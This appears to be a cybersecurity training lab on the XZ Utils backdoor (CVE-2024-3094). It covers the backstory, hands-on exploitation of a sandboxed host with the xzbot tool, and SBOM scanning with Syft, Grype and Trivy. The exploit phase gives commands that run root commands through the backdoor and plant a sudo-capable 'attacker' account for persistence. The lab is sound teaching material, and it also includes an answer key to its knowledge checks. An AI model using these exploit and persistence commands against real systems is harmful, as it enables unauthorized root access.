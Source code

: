 # XZ Utils - A Case Study on Supply Chain Trust

This lab draws on the XZ Utils supply chain compromise referenced in this <a href="https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094" target="_blank">CISA alert</a> from April of 2024. The XZ Utils case study represents an incident where a supply chain trust issue led to the inclusion of a backdoor vulnerability in the XZ Utils open source software package. What's most interesting is how the vulnerability was introduced and how it was discovered (almost completely by accident). Had the vulnerability not been discovered, any system that patched its OpenSSH service with the vulnerable version of XZ Utils could have been compromised. The lab will cover the backstory to this incident and walk you through an example vulnerability test and exploitation of the backdoor.

One of the ways personnel can review software packages and libraries for vulnerabilities before installation is through the use of Software Bills of Materials (SBOMs). Additional guidance on the use and generation of SBOMs can be viewed at <a href="https://www.cisa.gov/sbom" target="_blank">CISA's SBOM information page<a>.

Further information and recommendations on using secure software can be found in the <a href="https://www.cisa.gov/sites/default/files/2023-01/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_CUSTOMER.PDF" target="_blank">Securing the Software Supply Chain Guide</a>

 - This lab is expected to take 30 minutes

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

**Caution!** You must complete _all_ phases of the lab to receive your completion certificate.

## Learning Objectives

 - Understand the XZ Utils backdoor vulnerability
 - Perform exploitation of the XZ Utils backdoor vulnerability
 - Understand Software Bill of Materials
 - Analyze SBOM details for vulnerability information

## Learner Expectations

 - Learners should be comfortable with command-line operations and Secure Shell connections

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by analyzing and removing vulnerabilities and area 4 (Cyber Supply Chain Risk Management) by validating open source software before use.

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Exploitation Analysis, Software Security Assessment, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1359</a>: Perform penetration testing
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1624</a>: Conduct vulnerability analysis of software patches and updates
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1690</a>: Identify exploitable technical or operational vulnerabilities


<!-- cut -->

# Scenario

The lab begins by walking through the timeline and backstory of the XZ Utils case study. Then you will perform hands-on penetration testing and exploitation of the vulnerability in a sandbox environment.

The lab environment consists of three systems:
 - A Kali Linux system that will serve as the "attacker"
 - An unaffected or safe system
 - A vulnerable system that includes the XZ Utils vulnerability
 
You will test each system to identify which is vulnerable based on interactions with the OpenSSH service and then demonstrate an exploit of the vulnerability. The lab will also review the concept of Software Bill of Materials (SBOM). Then the lab will demonstrate how tools like Grype and Trivy can identify vulnerable libraries before using them in software.

![Network diagram for the XZ Utils lab showing Kali, vulnerable, and unaffected system](./img/network-diagram.png)

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Unaffected System | Ubuntu |user | tartans|
| Vulnerable System | Ubuntu |user | tartans|
| Kali | Kali Linux | user | tartans |

<!-- cut -->

## XZ Utils - Case Study Details 

The following section will outline, in detail, the events that led to the inclusion and discovery of the XZ Utils vulnerability. If you are already familiar with the story, you may skip ahead to Phase 1 of the lab. This initial section exploring the XZ Utils backdoor vulnerability is a 5-minute read.

<details> 
<summary> 
<h3>XZ Utils Vulnerability Backstory</h3> 
</summary> 
<p> 

#### What is XZ Utils? 

From XZ Util's own project page, "XZ Utils provide a general-purpose data-compression library plus command-line tools" `[1]`. Compared to other compression libraries and tools, such as gzip, XZ Utils can provide up to 30% more compression, albeit at the mild expense of longer compression times `[1,2]`. 

XZ Utils and the former LZMA2 Utils libraries are often part of other services that require data compression. One of which is the OpenSSH service that provides remote command-line access to systems and is often used by administrators. Estimates are that up to 70% of SSH servers are running some form or version of OpenSSH `[3]`. Keep this statistic in mind as we review the case. 

#### An Exercise of Social Engineering and Extreme Patience 

One of the most remarkable aspects of this case is the way the actor was able to gain the XZ Utils project maintainer's trust. Here is a rough timeline of the over 2 years of events that took place leading up to the inclusion of the vulnerability`[3]`: 

 - **October, 2021 - February, 2022**: User Jia Tin sends patches to the current XZ Utils maintainer, Lasse Colin, who integrates Tin's patches into a commit in February, 2022. 
 - **April, 2022 - June, 2022**: Several sockpuppet accounts (accounts that had no previous history or Internet presence up to this point and may have been operated by Tin) begin messaging Colin complaining of slow update times and pressuring him to appoint a second maintainer; a role that Tin has poised themselves to take with their previous patch submissions. 
 - **July, 2022 - December, 2022**: Lasse makes Tin an organization member of the XZ Utils GitHub project, adding him to email lists, and granting more access than Tin had previously. 
 - **January, 2023 - January, 2024**: Jia Tin takes over more and more responsibility for the project's maintenance, becomes a full-fledged maintainer and makes a few innocuous changes to the code that will serve the attack to come. 
 - **February, 2024**: Tin merges hidden backdoor binary code into the test input files included in the XZ Utils v5.6.0 unstable release. By the end of the month, errors are reported, and this likely led Jia Tin to accelerate the timeline of their plans. Some of the suggested "fixes" to the errors would prevent the backdoor in the future by unlinking the liblzma library from the libsystemd daemon - one that is necessary for the backdoor to work. 
 - **March, 2024**: Jia Tin releases XZ Utils v5.6.1, reporting to have fixed the previous errors, but this is a deception. The update includes a new backdoor in the test files that is less noisy to avoid detection. Tin hopes that the proposed solution of unlinking the libzma libraries will no longer be seen as necessary. 
 - **March 28, 2024**: Andres Freund discovers the bug and reports his findings to Debian who proactively rolls back XZ Utils v5.6.1 to v5.4.5. Meanwhile, other Linux distributions, such as Arch Linux and RedHat, announce the backdoor and advise users to downgrade the XZ Utils package if they have one of the vulnerable versions (5.6.0 or 5.6.1). 

#### Clever Concealment 

Part of the reason that the backdoor went relatively unnoticed to others was because the backdoor was added within the test files included with the 5.6.0 and 5.6.1 releases. Tin's own comments state, “This directory contains bunch of files to test handling of .xz, .lzma (LZMA_Alone), and .lz (lzip) files in decoder implementations. Many of the files have been created by hand with a hex editor, thus there is no better ‘source code’ than the files themselves,” `[3]`. The hope was that these test files would not be scrutinized to the same degree as the actual source code files. In addition, the malicious test files were only included in the tarball download files, and not directly on the GitHub project files list, further obfuscating their existence. Upon decompression of the package during the build process, the backdoor was added to the XZ Utils and liblmza libraries. 

An infographic created by Thomas Roccia is included below: 

![Infographic of XZ Utils supply chain compromise](./img/xz-infographic.jpg) 

*https://x.com/fr0gger_/status/1774342248437813525/photo/1* 

#### Discovery 

The backdoor's discovery by Andres Freund was unintentional in nature. Andres, a Postgres developer for Microsoft, discovered that creation of SSH logins were generating several Valgrind errors and that connections took slightly longer than usual using more CPU than normal. Valgrind is a tool used to detect memory management bugs in Linux programs, and Andres was so used to his systems that he noticed the fractionally longer login times for his SSH logins to connect. The Valgrind output seemed to point to liblzma and to xz utils in large. He then discovered the obfuscated code that is run by the liblzma and XZ Utils process during his SSH login session `[4]`. 

Additionally, in the case where the OpenSSH service is run by the systemd daemon at boot, the OpenSSH service is run in the context of the root user, which in Linux, is tantamount to the highest privileged user on the system. Anyone who would exploit this backdoor would then also be granted root-level access to the underlying system. 

After being reported the vulnerability was immediately given a severity score of 10, the highest a vulnerability can have, and the designation of <a href="https://nvd.nist.gov/vuln/detail/cve-2024-3094" target="_blank">CVE-2024-3094</a>. 

#### Lessons Learned 

Luckily, there are a handful of mitigating factors that prevented this backdoor vulnerability from becoming a larger issue. 

 - 1: The backdoor was caught relatively early, and many had likely not updated or upgraded their current version of XZ Utils to one of the compromised versions. Unless operators were hyper-diligent about updating their packages, the pool of vulnerable systems would have been small at first. However, remember that up to 70% of systems with an SSH login service use a version of OpenSSH, so the potential for harm was great on a long enough timescale. 
 - 2: The backdoor relied on a specific public/private key pair to connect. This means that only the holder of the required private key would have been able to leverage the backdoor. At the time of discovery, the likelihood that the actor, Jai Ti, was going to personally target systems of interest would have been very low. However, it would have been possible for this actor to sell or offer this private key to those who would see the backdoor used for malicious intent. 
 - 3: Due to the possibly rushed execution of the attack to avoid detection, the implementation of the backdoor tended to be buggy and may not have worked on every system that leveraged XZ Utils and the liblzma libraries. Andres alludes to crashes caused by the backdoor in version 5.6.0, meaning that those who did not update to v5.6.1 had a lower chance of being exploited in the wild. 

So, what did we learn from this incident? Should we trust open source software? Overall, we likely can, as the entire purpose of open source is for the community to review and vet software to find and correct errors, bugs, and vulnerabilities. While this backdoor vulnerability had the potential to cause massive harm, it was caught relatively quickly thanks to the diligence of the larger IT and cybersecurity communities. However, this example demonstrates how the implied trust behind well-known and well-used open source software could be used for malicious purposes. 

</p> 
</details> 

## Phase 1: Test and Exploit the XZ Utils Vulnerability 

In this phase of the lab, you will test for the presence of the vulnerability, just as the discoverer did, and then perform the exploitation of the XZ Utils vulnerability. 

<details>
<summary>
<h3>Test for the Presence of the XZ Utils Vulnerability</h3>
</summary>
<p>

First, we'll walk through how to know if a system could be affected by the backdoor. We are looking for four key items:

 - The system is using `OpenSSH` for its SSH service
 - OpenSSH includes the `liblzma` library as a dependency
 - OpenSSH is `executed by systemd` at startup
 - The version of XZ Utils is either `5.6.0` or `5.6.1`

1. Open the `Unaffected-System` console and login with the credentials `user|tartans`.

2. (**Unaffected-System**) To check whether the system is running SSH, and more specifically OpenSSH, run the following command:

```
sshd -V
```

![Terminal output of sshd -V showing OpenSSH version](./img/s08-image1.png)

We can see from the output that our system is indeed using OpenSSH.

3. (**Unaffected-System**) To check whether OpenSSH includes liblzma as a library dependency, run the following command:

```
ldd $(which sshd)
```

![Terminal output of ldd $(which sshd) showing liblzma dependency](./img/s08-image2.png)

The output lists all the shared library dependencies and objects for the service in question. The output also clearly shows that OpenSSH is dependent on the liblzma library.

4. (**Unaffected-System**) To check whether OpenSSH is executed by systemd at startup, run the following commands in succession:

```
ps -eo pid,ppid,cmd | grep [s]shd
ps -eo pid,ppid,cmd | head
ls -l /sbin/init
```

![Process list showing sshd started by systemd](./img/s08-image3.png)

All of the relevant output will fit onto the screen. The first output prints the process id, parent process id, and command name for any running process that includes the name "sshd". We can see from this output that the parent process id for the sshd service is `1`. The second output simply lists the same information for the first 10 entries of the process list, allowing us to see that process 1 corresponds to `/sbin/init`. The third and final output highlights that /sbin/init is symlinked (another way of saying shortcut) to `/lib/systemd/systemd`. Since systemd is responsible for managing services at startup, this tells us that the sshd service is started at boot by the systemd account.

Therefore, we have proven that the first three criteria pass:

 - The system is using `OpenSSH` for its SSH service &#x2705;
 - OpenSSH includes the `liblzma` library as a dependency &#x2705;
 - OpenSSH is `executed by systemd` at startup &#x2705;

5. (**Unaffected-System**) Lastly, to tell which version of XZ Utils is currently installed, run the following command:

```
xz --version
```

![Terminal output of xz --version](./img/s08-image4.png)

We can see from the output that this system is not using one of the vulnerable xz-util version. Therefore, the final criteria for being a candidate for the backdoor is not true.

 - The version of XZ Utils is either `5.6.0` or `5.6.1` &#x274E;

6. Open the `Vulnerable-System` console and login with the credentials `user|tartans`.

7. (**Vulnerable-System**) Repeat steps 2-5 above for this system. Everything should be more less the same until you check the version of xz.

![Terminal output of xz --version showing vulnerable 5.6.1](./img/s08-image5.png)

This time we see that the system is using version 5.6.1, which is one of the vulnerable versions of XZ Utils.

8. (**Vulnerable-System**) Additionally, we can verify that the liblzma shared object that OpenSSH is using is the vulnerable version by running the following command:

```
ls -l /usr/local/lib/liblzma.so.5
```

When you ran the `ldd $(which sshd)` command you would have noticed that OpenSSH is still pointing to the liblzma.so.5 shared object, but the above output shows that this is symlinked to the vulnerable shared object of liblzma (liblzma.so.5.6.1).

![Terminal output showing symlink to vulnerable liblzma.so.5.6.1](./img/s08-image7.png)

In the next section, you will exploit the vulnerable system and test the effects.

</p>
</details>

<details>
<summary>
<h3>Exploit the XZ Utils Vulnerability</h3>
</summary>
<p>

In this section you will perform the exploitation of the XZ Utils backdoor using a proof-of-concept tool named <a href="https://github.com/amlweems/xzbot?tab=readme-ov-file#backdoor-demo" target="_blank">xzbot</a>, which was created by GitHub user `amlweems`.

1. Open the `Kali-XZ` console and login with the credentials `user|tartans`, if not already logged in.

2. (**Kali-XZ**) Open Firefox and browse to the hosted files site at `https://skills.hub/lab/files` (`https://10.5.5.5/lab/files`).

3. (**Kali-XZ, Firefox**) Download the `xzbot` standalone executable file to the default Downloads directory.

![Browser showing xzbot file available on Skills Hub for download](./img/s08-files.png)

The vulnerable server has been preconfigured with a private key that matches the public key used by the xzbot executable. Recall that in the published backdoor the private key of the attacker was unknown, so the keys in the lab were replaced using a pre-generated key pair that will allow us to perform the exploit.

4. (**Kali-XZ, Terminal**) Open a Terminal and change directories, set the executable flag for xzbot and then view the help options with the following commands:

```
cd /home/user/Downloads/
chmod +x xzbot
./xzbot -h
```

![Terminal showing xzbot help options](./img/s08-image8.png)

Based on the help options, we need to supply the SSH server IP and port, a command, and a seed value. For the lab we can ignore the seed value option as the default seed value of 0 was already used to generate the new key pair. This leaves just the IP, port, and command to run.

5. (**Kali-XZ, Terminal**) Exploit the OpenSSH server with the following command, where the `id` command will output the context in which the command was executed to the file `/home/user/id` on the vulnerable system:

```
./xzbot -addr 10.5.5.250:22 -cmd "id > /home/user/id"
```

You should see the following output.

![Terminal showing xzbot exploit command execution attempt](./img/s08-image9.png)

Even though the output says the SSH handshake failed, we can verify that the command was run by looking on the vulnerable system.

6. (**Vulnerable-System**) Switch to the **Vulnerable-System** console and view the contents of the `id` file you just created with the following command:

```
cat /home/user/id
```

![Terminal output of cat /home/user/id](./img/s08-image10.png)

The output shows that when we ran `id` through the xzbot backdoor connection, we were running as the root user. So, what could we do with this level of access as a malicious actor?

7. (**Kali-XZ, Terminal**) Return to the **Kali-XZ** console and run the following commands in succession:

```
./xzbot -addr 10.5.5.250:22 -cmd "useradd -m -s /bin/bash attacker"
./xzbot -addr 10.5.5.250:22 -cmd "echo 'attacker:tartans' | chpasswd"
./xzbot -addr 10.5.5.250:22 -cmd "gpasswd -a attacker sudo"
```

These commands will appear to run silently to you, but they will perform consequential tasks on the target system.

 - The first command creates a new user named `attacker`, creates a home directory for it, and then sets the user's default shell to bash
 - The second command sets the `attacker` password to `tartans`
 - The third command adds the `attacker` user to the sudoers group

8. (**Kali-XZ, Terminal**) Login to the vulnerable system using the account you just created and a password of "tartans" (enter "yes" when asked if you are sure you want to connect):

```
ssh attacker@10.5.5.250
```

9. (**Kali-XZ, Terminal, SSH Session to Vulnerable-System**) To validate that you are indeed a sudoer for the system, run the following command with the sudo password of `tartans` and the view the contents of the flag file in the root directory:

```
sudo cat /root/token
```

**Knowledge Check Question 1:** *What is the token string found in the root directory once the vulnerable system has been successfully exploited?*

Note that this directory was protected against the standard 'user' account initially so that you could not view it until you had a sudoer account at your disposal.

10. (**Kali-XZ, Terminal, SSH Session to Vulnerable-System**) Once you have the token file contents you may end the SSH session to the Vulnerable-System with the following command:

```
exit
```


You have just circumvented the standard protections for this system by creating a new privileged user account by using the backdoor in liblzma. Now that an account is created, an attacker could go about making further changes to lock out other users, erase logs to cover their tracks, and set up persistence or pivot to other systems.

#### Grading Check

(**Kali-XZ, Firefox**) To check your work, browse to the grading page at `https://skills.hub/lab/tasks` or `(https://10.5.5.5/lab/tasks)` from the Kali system. Click the `Submit/Re-Grade Tasks` button to trigger the grading checks. Refresh the results after a few moments to see your results.

![Grading check page showing exploit tasks passed](./img/s08-image13.png)

Grading Check 1: Successfully added the attacker user to the vulnerable system and added the attacker to the sudoers group.
 - New user `attacker` was added to the Vulnerable-System
 - The `attacker` user is part of the sudoers group

`Copy the token or flag strings to the corresponding question submission field to receive credit.`

### Optional Validation

1. (**Kali-XZ, Terminal**) In order to view SSH connections times and replicate what the researcher observed, you can run the following command against the Vulnerable-System:

```
(time sshpass -p 'tartans' ssh -o StrictHostKeyChecking=no user@10.5.5.250 "pidstat -C sshd 1 3") 2>&1 | grep real
```

2. (**Unaffected-System**) For the Unaffected-System you will first have to run `ip addr` locally to determine the system's IP address.

![Terminal output of ip addr showing system IP](./img/s08-image11.png)

3. (**Kali-XZ, Terminal**) Then use this IP address in the same command as above, replacing the `.250` with the correct final octet of the Unaffected-System's Ip address.

You should notice, even on repeated tests, that the Vulnerable-System always connects more slowly than the Unaffected-System.

![Terminal output comparing SSH connection times](./img/s08-image12.png)

It's quite impressive that the researcher was able to notice this small difference simply by "feel", which caused him to dig deeper and led to the discovery of the backdoor.

</p>
</details>

## Phase 2: Reviewing SBOMs for Vulnerable Packages

<details>
<summary>
<h3>Investigate the XZ Utils Package</h3>
</summary>
<p>

For this phase of the lab you will be generating and reviewing a few sample SBOMs, including one taken from the vulnerable systems.

| &#128270; Software Bill of Materials (SBOM) |
|---|
|_As stated previously, SBOMs are Software Bills of Materials. SBOMs list the various libraries or even applications for a given project, package, or file. SBOMS can even be created from the contents of a system's filesystem. SBOMs are useful for creating an inventory of the various software libraries that are included in a package or project, or the various libraries and programs in a certain directory, compressed package, or other file. SBOM data can also be used to scan for known vulnerabilities attached to the specific versions of libraries, applications, or programs within the SBOM inventory list. These results can be valuable when evaluating open source software and allows personnel to correct vulnerable items before the software is used._ |

| &#128736; Syft |
|---|
|_Syft is an open source command-line interface tool used for creating SBOMs. Syft was used in this lab due to its simplicity. Syft gathers information about a target and performs additional metadata gathering when run online._ |

| &#128736; Grype |
|---|
|_Grype is an open source command-line interface tool used to scan SBOM's for known vulnerabilities. Grype leverages a vulnerability database but can be run offline as long as the database was stored locally._ |

1. (**Kali-XZ**) Open Firefox (if not already open) and browse to the hosted files site at `https://skills.hub/lab/files` (`https://10.5.5.5/lab/files`).

2. (**Kali-XZ, Firefox** Download the following files:
 - juiceshop-sbom.json: A CylconeDX formatted SBOM created from the OWASP Juice Shop site (retrieved from <a href="https://github.com/CycloneDX" target="_blank">CylconeDX</a>)
 - xz.json: An SPDX formatted SBOM based on the Vulnerable-System's xz-5.6.1 package
 - xz-5.6.1.tar.gz: The original XZ-Utils tarball including the vulnerable version of XZ Utils

![Browser showing hosted files page on Skills Hub](./img/s08-files.png)

3. (**Kali-XZ, Terminal**) Change working directories to the Downloads directory with the following commands:

```
cd /home/user/Downloads
```

4. (**Kali-XZ, Terminal**) First, you will create an SBOM of the XZ Utils tarball using `Syft` with the following command (you can ignore any warnings about not being able to fetch the latest version, as the tool is running offline):

```
syft -o spdx xz-5.6.1.tar.gz > my-xz.json
```

![Terminal output of syft creating SBOM file](./img/s08-image16.png)

Syft can view the contents of the tarball file and gather the list of libraries and packages within. The `-o` option allows you to specify the output format; SPDX in this case.

5. (**Kali-XZ, Terminal**) You can view the contents of the SBOM with `cat my-xz.json` or by viewing it directly within the OS GUI with a text editor, such as VS Code or VIM.

An important item of note is that when Syft runs in an offline fashion it might not be able to grab all the associated metadata with certain library and package files.

6. (**Kali-XZ, Terminal**) Compare the SBOM that you created with the SBOM that was pre-generated for you with the following command:

```
diff -y my-xz.json xz.json
```

![Terminal output comparing SBOM files with diff](./img/s08-image17.png)

As you scroll through the differences, you'll see that there are some sections and additional information available in the xz.json SBOM that was taken while Syft was online.

Let's check the pre-generated SBOM for any vulnerabilities flagged in the xz-5.6.1.tar.gz package using Grype.

7. (**Kali-XZ, Terminal**) Review the SBOM for any vulnerabilities associated with known CVE's with the following command (Grype will also complain about not being able to check for updates due to being run offline, but this is normal):

```
grype xz.json
```

![Terminal output of grype showing CVEs for xz-utils](./img/s08-image18.png)

You'll see that Grype flags the vulnerable version of XZ Utils right away, as well as lists the exact CVE and the version in which the CVE was fixed or resolved.

**Knowledge Check Question 2:** *What is the CVE associated with the "Unknown" severity vulnerability in the Grype output?*

Using tools like Grype to review packages before installation is critical to vulnerability management, but it also allows you to resolve the vulnerable package with a known safe version. Review of SBOM's and packages is paramount to maintaining security and reducing risk when using open source packages.

</p>
</details>

<details>
<summary>
<h3>Reviewing More Complex SBOMs with Trivy</h3>
</summary>
<p>

In this final section of the lab, you will review a more involved SBOM based on the OWASP vulnerable Juice Shop site, which is used for practicing penetration testing techniques. The site is intentionally rife with vulnerabilities, so Trivy should find many potential issues with the package.

| &#128736; Trivy |
|---|
|_Trivy is another open source command-line interface tool for performing security scanning of SBOMs. Trivy produces vulnerability information, including CVE numbers, in a table format that is easy to read and can even filter the results by severity._|

0. (**Kali-XZ, Terminal**) Because of the way Trivy runs in this offline sandboxed environment, it cannot perform automatic database updates. The trivy.db file includes metadata that compares the current date to the date on which the .db file was pulled. 

In order to trick Trivy into not running the database checks, the system clock was modified at the start of the lab to set the date back to when the database was last updated (May 6th, 2025). Check the system clock and make sure this is still the case.

If you need to set the date back yourself, you can enter the following command:

```
sudo date -s "Tue May 6 02:30:00 PM EDT 2025"
```

Since this is the last step we are performing, the date change should not affect the local system.

**Note: If at any time Trivy behaves as if it cannot read from its local database again, you can replace the cached files with the following commands:**

```
cp /home/user/metadata.json /home/user/.cache/trivy/db/
cp /home/user/trivy.db /home/user/.cache/trivy/db/
```

1. (**Kali-XZ, Terminal**) Review the Trivy output for the Juice Shop SBOM with the following command:

```
trivy sbom juiceshop-sbom.json
```

The `sbom` flag tells Trivy that we are reviewing an SBOM file, which is the `juiceshop-sbom.json` file.

The output will display a table of the libraries that have known CVE's attached and whether or not the vulnerability is still active or it has been fixed.

![Terminal output of trivy scan showing known CVEs](./img/s08-image15.png)

2. Use the table's information and Internet research to answer the following questions.

**Knowledge Check Question 3:** *How many unique libraries (not unique CVE's) are identified as having at least one CVE with a `HIGH` severity level?*

Hint: You can add the `--severity HIGH` option to the previous Trivy command to help with Knowledge Check Question 3.

**Knowledge Check Question 4:** *How many 'CRITICAL' severity CVE's are still affected in the Juice Shop package based on the SBOM and Trivy output?*

Hint: You can add the `--severity CRITICAL` option to the previous Trivy command to help with Knowledge Check Question 4.

You have now used multiple tools to gather vulnerability information from SBOMs made from various packages and libraries. There is no single tool to rule them all when it comes to SBOM review. While Grype flagged the XZ Utils vulnerability, Trivy does not in this instance. It is important to leverage multiple tools, whenever possible, to ensure you have the full picture when reviewing SBOM details.

</p>
</details>

<details>
<summary>
<h3>Lab Wrap-up</h3>
</summary>
<p>

### Conclusion

By completing this lab, you were able to review and demonstrate an exploit against the XZ Utils backdoor vulnerability. In addition, you learned about SBOMs and how they can be used to review open source software for potential vulnerabilities before use.

To recap:
 - You reviewed and compared a pair of systems to determine which was vulnerable to the XZ Utils backdoor vulnerability
 - You exploited the XZ Utils backdoor vulnerability and performed follow-on actions to gain persistent sudoer access as a new user
 - You created an SBOM from the vulnerable XZ Utils source code package
 - You analyzed the output of security and vulnerability scanning tools against SBOMs to determine specific vulnerability information

Skills exercised:
 - S0504: Skill in identifying vulnerabilities
 - S0543: Skill in scanning for vulnerabilities
 - S0544: Skill in recognizing vulnerabilities

### Answer Key

**Knowledge Check Question 1**: What is the token string found in the root directory once the vulnerable system has been successfully exploited?
 - *This answer is randomized for each lab instance*
 
**Knowledge Check Question 2**: What is the CVE associated with the "Unknown" severity vulnerability in the Grype output?
 - *CVE-2024-47611*

![Screen capture of Knowledge Check 2 correct answer](./img/kc2.png)  
  
**Knowledge Check Question 3**: How many unique _libraries_ (not unique CVE's) are identified as having at least one CVE with a `HIGH` severity level based on the Juice Shop SBOM?
 - *16*

![Screen capture of Knowledge Check 3 correct answer](./img/kc3.png)
  
**Knowledge Check Question 4**: How many 'CRITICAL' severity _CVE's/vulnerabilities_ (not unique libraries) are ALSO still marked as _affected_ based on the Juice Shop SBOM?
 - *5*

![Screen capture of Knowledge Check 4 correct answer](./img/kc4.png)
  
### References
 - `[1]`<a href="https://github.com/tukaani-project/xz" target="_blank">XZ Utils GitHub Project page</a>
 - `[2]` <a href="https://en.wikipedia.org/wiki/XZ_Utils" target="_blank">Wikipedia</a>
 - `[3]` <a href="https://research.swtch.com/xz-timeline" target="_blank">Timeline of the xz open source attack</a>
 - `[4]` <a href="https://www.openwall.com/lists/oss-security/2024/03/29/4" target="_blank">Andres Freund's Report to Openwall</a>
 - <a href="https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094" target="_blank">CISA Alert on XZ Utils</a>
 - <a href="https://www.cisa.gov/sbom" target="_blank">CISA SBOM information page<a>
 - <a href="https://www.cisa.gov/sites/default/files/2023-01/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_CUSTOMER.PDF" target="_blank">CISA Securing the Software Supply Chain Guide</a>
 - <a href="https://github.com/anchore/grype" target="_blank">Grype</a>
 - <a href="https://github.com/anchore/syft" target="_blank">Syft</a>
 - <a href="https://trivy.dev/latest/" target="_blank">Trivy</a>
 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>


